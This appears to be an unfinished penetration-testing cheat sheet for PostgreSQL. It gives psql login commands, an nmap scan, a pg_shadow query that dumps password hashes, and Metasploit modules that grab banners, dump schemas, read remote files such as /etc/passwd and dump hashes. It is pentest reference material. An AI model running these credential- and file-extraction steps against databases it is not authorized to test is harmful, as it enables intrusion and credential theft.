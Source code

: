 # PostgreSQL

## 01 - Manual

TODO: Fill this information by referring to the references down below

### 1.1 - Usage

#### 1.1.1 - Authenticate

- **Local**

`$ psql -U <username>`

`$ psql -U <username> -W`

- **Remote**

`$ psql -h <IP> -U <username> -W`

`$ psql postgresql://<username>:<password>@<IP>:<PORT>/<database_name>`

### 1.2 - PostgreSQL Version

### 1.3 - Operating System

### 1.4 - Database

#### 1.4.1 - Retrieve Databases

#### 1.4.2 - Retrieve Tables

#### 1.4.3 - Hashdump

`postgres=# SELECT username, passwd FROM pg_shadow;`

## 02 - Nmap

`$ nmap -p 5432 <IP>`

## 03 - Metasploit

### 3.1 - Banner Grab

```
msf > use auxiliary/scanner/postgres/postgres_version

msf auxiliary(scanner/postgres/postgres_version) > options

Module options (auxiliary/scanner/postgres/postgres_version):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output

msf auxiliary(scanner/postgres/postgres_version) > set database <database_name>

msf auxiliary(scanner/postgres/postgres_version) > run postgres://<username>:<password>@<IP> threads=8
```

### 3.2 - SQL Queries

#### 3.2.1 - Schema

```
msf > use auxiliary/scanner/postgres/postgres_schemadump

msf auxiliary(scanner/postgres/postgres_schemadump) > options

Module options (auxiliary/scanner/postgres/postgres_schemadump):

   Name               Current Setting      Required  Description
   ----               ---------------      --------  -----------
   DATABASE           postgres             yes       The database to authenticate against
   DISPLAY_RESULTS    true                 yes       Display the Results to the Screen
   IGNORED_DATABASES  template1,template0  yes       Comma separated list of databases to ignore during the schema dump
   PASSWORD           postgres             no        The password for the specified username. Leave blank for a random password.
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              5432                 yes       The target port
   THREADS            1                    yes       The number of concurrent threads (max one per host)
   USERNAME           postgres             yes       The username to authenticate as

msf auxiliary(scanner/postgres/postgres_schemadump) > set database <database>

msf auxiliary(scanner/postgres/postgres_schemadump) > set ignored_databases <database1>,<database2>,<etc>

msf auxiliary(scanner/postgres/postgres_schemadump) > run postgres://<username>:<password>@<IP> threads=8
```

#### 3.2.2 - Read File

```
msf > use auxiliary/admin/postgres/postgres_readfile

msf auxiliary(admin/postgres/postgres_readfile) > options

Module options (auxiliary/admin/postgres/postgres_readfile):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output

msf auxiliary(admin/postgres/postgres_readfile) > set database <database>

msf auxiliary(admin/postgres/postgres_readfile) > set rfile </path/to/file>

msf auxiliary(admin/postgres/postgres_readfile) > run postgres://<username>:<password>@<IP> threads=8
```

#### 3.2.3 - Hashdump

```
msf > use auxiliary/scanner/postgres/postgres_hashdump

msf auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as

msf auxiliary(scanner/postgres/postgres_hashdump) > set database <database>

msf auxiliary(scanner/postgres/postgres_hashdump) > run postgres://<username>:<password>@<IP> threads=8
```

## References

- [A Penetration Testers guide to PostgreSQL](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)

- [Ultimate guide PostgreSQL Pentesting](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e)

- [Pentration Testing on PostgreSQL 5432](https://www.hackingarticles.in/penetration-testing-on-postgresql-5432/)

- [Pentest Wiki Database Assessment PostgreSQL](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)

- [Metasploit Unleashed: Admin Postgre Auxiliary Module](https://www.offsec.com/metasploit-unleashed/admin-postgres-auxiliary-modules/)